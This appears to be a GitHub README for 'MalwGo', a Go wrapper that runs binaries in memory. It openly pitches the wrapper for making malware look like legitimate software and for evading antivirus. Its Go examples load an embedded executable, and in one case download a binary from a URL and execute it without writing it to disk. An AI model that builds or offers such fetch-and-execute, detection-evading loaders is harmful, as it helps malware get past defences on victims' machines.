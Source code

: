# MalwGo (Malware + Go)

Notice: This project is a toy project built on top of [go-memexec](github.com/amenzhinsky/go-memexec) and is not intended to be used for malicious purposes.

Create a wrapper around any binary file to run it in memory. This can be useful to create for example a malware that runs like a legit software, and also to avoid antivirus detection (since the binary is not saved in the disk & can be downloaded from internet).

### Load a programm in memory from a embeded file

```go
package main

import (
    "fmt"
    "github.com/PiterWeb/malwgo"
    _ "embed"
)

//go:embed mybinary.exe
var MyBinary []byte

func main() {

    malgwo_inst, err := malwgo.New(&malwgo.Options{
        bin: MyBinary,
        onStart: func() {
            fmt.Println("Starting...")
        },
        onStop: func() {
            fmt.Println("Stopping...")
        },
        onBackground: func() {
            fmt.Println("Running in background...")
        },
    })

    if err != nil {
        panic(err)
    }

    malgwo_inst.Exec(nil)

    defer malgwo_inst.Close()

}
```

### Load a programm in memory from internet

```go
package main

import (
    "fmt"
    "github.com/PiterWeb/malwgo"
)

func main() {

    malgwo_inst, err := malwgo.New(&malwgo.Options{
        binUrl: "https://example.com/mybinary.exe",
        onStart: func() {
            fmt.Println("Starting...")
        },
        onStop: func() {
            fmt.Println("Stopping...")
        },
        onBackground: func() {
            fmt.Println("Running in background...")
        },
    })

    if err != nil {
        panic(err)
    }

    malgwo_inst.Exec(nil)

    defer malgwo_inst.Close()

}
```

### Thank you [amenzhinsky](github.com/amenzhinsky) for the [go-memexec](github.com/amenzhinsky/go-memexec) library

It is a very interesting library that allows to run a binary in memory. This project is a wrapper around it.